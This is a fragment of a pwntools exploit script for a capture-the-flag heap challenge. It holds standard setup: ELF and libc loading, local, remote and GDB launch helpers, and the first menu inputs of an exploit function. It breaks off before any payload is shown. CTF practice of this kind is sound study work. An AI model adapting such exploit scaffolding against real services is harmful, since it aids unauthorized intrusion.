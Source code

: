 ```python
LD = "/home/kali/Desktop/404_Heap/second_stage/ld-2.27.so"

# Set up pwntools for the correct architecture
exe = pwn.context.binary = pwn.ELF(BINARY)
libc = pwn.ELF(LIBC)
ld = pwn.ELF(LD)
#pwn.context.terminal = ["tmux", "splitw", "-h"]
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False
p64 = pwn.p64
u64 = pwn.u64
p32 = pwn.p32
u32 = pwn.u32
p16 = pwn.p16
u16 = pwn.u16
p8  = pwn.p8
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
b help_christian
continue
'''.format(**locals())

def exp():

    io = start()

    # Helping christian

    io.send(b"1\n1\n")
    
    # Filling required speech

    io.sendline(b"M'accuser, - justes dieux ! - De n'aimer plus... quand... j'aime plus !")
```